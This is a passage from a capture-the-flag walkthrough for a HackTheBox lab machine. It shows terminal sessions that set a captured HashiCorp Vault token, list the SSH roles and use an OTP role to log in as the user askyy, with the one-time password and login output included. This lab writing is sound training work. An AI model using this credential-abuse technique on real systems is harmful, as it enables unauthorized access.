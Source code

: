 ```bash
┌──(kali㉿kali)-[~]
└─$ unzip vault_1.12.2_linux_amd64.zip   
Archive:  vault_1.12.2_linux_amd64.zip
  inflating: vault

┌──(kali㉿kali)-[~]
└─$ export VAULT_API_ADDR="<http://prd23-vault-internal.skyfall.htb/>"


┌──(kali㉿kali)-[~]
└─$ export VAULT_TOKEN="hvs.CAESIJlU9JMYEhOPYv4igdhm9PnZDrabYTobQ4Ymnlq1qY-LGh4KHGh2cy43OVRNMnZhakZDRlZGdGVzN09xYkxTQVE"

	
┌──(kali㉿kali)-[~]
└─$ export VAULT_ADDR="<http://prd23-vault-internal.skyfall.htb/>"
```


We have the permission to list SSH roles.
```bash
┌──(kali㉿kali)-[~]
└─$ ./vault token capabilities ssh/roles  
list

┌──(kali㉿kali)-[~]
└─$ ./vault list ssh/roles     
Keys
----
admin_otp_key_role
dev_otp_key_role
```


We can use the dev key role to obtain an SSH connection as the askyy user: [Link](https://developer.hashicorp.com/vault/docs/secrets/ssh/one-time-ssh-passwords).
```bash
┌──(kali㉿kali)-[~]
└─$ ./vault ssh -mode=otp -role=dev_otp_key_role askyy@skyfall.htb
Vault could not locate "sshpass". The OTP code for the session is displayed
below. Enter this code in the SSH password prompt. If you install sshpass,                                                          
Vault can automatically perform this step for you.                                                                                  
OTP for the session is: 4d453fac-54f1-1671-1bb8-cc7e49ad1763
The authenticity of host 'skyfall.htb (10.10.11.254)' can't be established.
ED25519 key fingerprint is SHA256:mUK/F6yhenOEZEcLnWWWl3FVk3PiHC8ETKpL3Sz773c.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:5: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'skyfall.htb' (ED25519) to the list of known hosts.
(askyy@skyfall.htb) Password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-92-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to <https://changelogs.ubuntu.com/meta-release-lts>. Check your Internet connection or proxy settings

```